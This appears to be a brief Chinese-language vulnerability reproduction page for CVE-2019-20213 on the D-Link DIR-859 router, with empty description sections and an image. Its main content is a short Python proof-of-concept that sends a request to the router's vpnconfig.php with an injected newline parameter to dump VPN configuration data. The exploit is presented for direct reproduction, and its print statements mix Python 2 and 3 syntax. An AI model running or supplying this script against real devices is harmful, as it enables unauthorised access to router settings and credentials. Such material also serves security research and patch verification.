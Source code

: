 ```yaml
---
title: （CVE-2019–20213）D-Link DIR-859 rce
id: zhfly3388
---
```


# （CVE-2019–20213）D-Link DIR-859 rce

## 一、漏洞简介

## 二、漏洞影响

![image](../img/6ae54a68f5d1743c2a05ad37071369a2.png)

## 三、复现过程

```
import requests
# Miguel Mendez Z.
FILES = ["vpnconfig.php"]
IP = "192.168.0.1"
PORT = "80"
headers = {'content-type': 'application/x-www-form-urlencoded'}
print "\n-----------VPN-------------\n"
url_vpn = 'http://{ip}:{port}/{file1}?pwnd=%0a'.format(ip=IP, port=PORT, file1=FILES[0])
print(requests.get(url_vpn).text) 
```